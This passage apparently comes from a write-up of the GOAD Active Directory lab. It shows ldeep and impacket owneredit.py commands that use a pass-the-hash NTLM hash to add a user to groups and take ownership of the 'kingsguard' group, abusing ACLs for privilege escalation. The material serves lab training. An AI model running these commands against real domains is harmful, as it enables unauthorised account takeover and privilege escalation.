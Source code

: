 - See the result

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council'
```

![acl_addself.png](/assets/blog/GOAD/acl_addself.png)

## AddMember on Group (Small Council -> dragonstone)

- Now as tyron we are in the small council, so we can add a member to dragonstone's group.
- So we just add tyron just like we did before

![acl_addmember.png](/assets/blog/GOAD/acl_addmember.png)

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

## WriteOwner on Group (dragonstone -> kingsguard)

- Now with the writeOwner privilege we can change the owner of kingsguard to own the group

![acl_write_owner.png](/assets/blog/GOAD/acl_write_owner.png)

- Just like before we will use the impacket [fork](https://github.com/ThePorgs/impacket)

```bash
owneredit.py -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
owneredit.py -action write -owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
```

